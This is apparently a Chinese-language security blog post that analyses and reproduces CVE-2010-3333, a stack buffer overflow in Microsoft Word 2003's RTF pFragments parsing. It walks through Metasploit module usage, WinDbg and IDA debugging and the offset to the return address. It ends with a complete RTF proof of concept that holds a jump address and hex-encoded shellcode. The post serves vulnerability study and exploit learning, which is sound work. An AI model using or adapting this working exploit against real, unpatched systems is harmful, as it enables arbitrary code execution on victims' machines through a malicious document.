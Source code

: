 ```yaml
---
layout:		post
title:		CVE-2010-3333分析 & 复现
author:		wooy0ung
tags:		cve
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP SP3  
>漏洞软件: Microsoft Office Word 2003 SP3  
>注意: 需要安装英文版, 安装后不是SP3的记得打上SP3的补丁包。  
>摘要: CVE-2010-3333(MS10-087)是Microsoft Office Word在处理RTF文档的绘图pFragments属性时产生的一个栈溢出漏洞。
<!-- more -->


### 0x00 前期准备

安装Microsoft Office 2003 SP3 & 生成msf.rtf

```
msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf > info
msf > set target 6
msf > run
```

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x00.png)

启动Word, WinDbg附加上去, 打开msf.rtf触发异常, 断在了内存copy指令rep movs(0x30ed442c)上

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x01.png)

发现该指令往READONLY内存区域写数据, 触发异常

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x02.png)

定位mso.dll模块的路径

```
# 以上用到的命令
> db esi
> db edi
> !address edi
> lmm mso v
```


### 0x01 栈回溯

重新载入, 在0x30ed442c下断, 定位崩溃函数的调用函数

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x03.png)
![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x04.png)

目标函数地址0x30f0b5c2, 下断, 重新载入, 单步到30F0B5F8 call dword ptr [eax+1Ch]跟进去

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x05.png)

定位到30ED4424 add esi, [eax+10h], 此处赋值esi=1005000c, 指向存放rtf pFragments数据的地址

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x06.png)

再单步到30ED442C rep movsd, ecx=0xc8ac(需要copy的字节数)/4=0x322b

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x07.png)

F5直接运行, 触发异常, 打印待copy的数据

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x08.png)

对比PoC, ecx长度过大, 覆盖到不可写区域崩溃掉

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x09.png)
![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x0a.png)

```
#以上用到的命令
> bp 30ed442c
> kb
> ub mso!Ordinal1273+0x2581
```


### 0x02 静态分析

打开IDA, 载入mso.dll, 定位到30ED4407 mov edi, [esp+4+arg_4]

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x0b.png)

edi指向一个栈地址, 看一下栈布局, 从arg_4开始覆盖

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x0c.png)

定位到sub_30f0b5c2, 再看看调用函数的栈布局

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x0d.png)

返回地址偏移上面arg_4 0x18-0x08+0x04=0x14 byte, 也就是任意填充14byte就到达返回地址


### 0x03 手工构造PoC

截取msf.rtf的头部

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x0e.png)

填充14 byte 1111...后,再填充4byte 2222...., 最后填充}}}}将数据封闭上

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x0f.png)

这里14byte、4byte是对栈数据来说, 实际上上WinHex上分别要填充28byte、8byte

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x10.png)

Windbg附加上去, 在30F0B6BA retn 14h断下, 单步一下, 发现eip=22222222, 成功劫持了eip

![](/assets/img/exploit/2017-09-23-cve-2010-3333/0x11.png)

下面就是构造rop了, 不再赘述, 完整的PoC如下, pwn!

```
# 0x7ffa4512(万能跳)+0x28byte * '0'+shellcode
{\rtf1{\shp{\sp{\sn pFragments}{\sv 5;3;11111111111111111111111111111111111111111111111111111245fa7f000000000000000000000000000000000000000031d2b230648b128b520c8b521c8b42088b72208b12807e0c3375f289c703783c8b577801c28b7a2001c731ed8b34af01c645813e4661746175f2817e084578697475e98b7a2401c7668b2c6f8b7a1c01c78b7caffc01c76867202001687930756e6820776f6f89e1fe490b31c05150ffd7}}}}
```